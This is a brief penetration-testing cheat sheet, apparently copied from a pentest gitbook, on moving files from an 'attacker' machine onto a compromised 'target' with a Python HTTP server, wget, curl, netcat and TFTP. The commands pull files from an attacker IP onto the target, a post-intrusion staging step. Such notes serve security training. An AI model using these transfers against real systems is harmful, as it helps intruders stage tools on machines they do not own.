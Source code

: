 This makes the entire folder where you executed the command on, available

    python -m SimpleHTTPServer 1234

wget or curl can be used on target to download the file

    wget 123.45.67.89:1234/file.txt
    curl -O http://123.45.67.89/file.txt
    
    
 Using Netcat
 
On attacker

    nc -lvp 1234 < file
    
On target

    nc 192.168.1.102 1234 > file

if wget/curl/nc are all not available, TFTP can be used

    tftp 192.168.0.101
    tftp> get somefile.txt

or

    tftp 192.168.1.254 <<< "get file.php file.php"
    
    
    Source: https://chryzsh.gitbooks.io/pentestbook/transfering_files.html
    
    Inside also includes ssh access with keypair
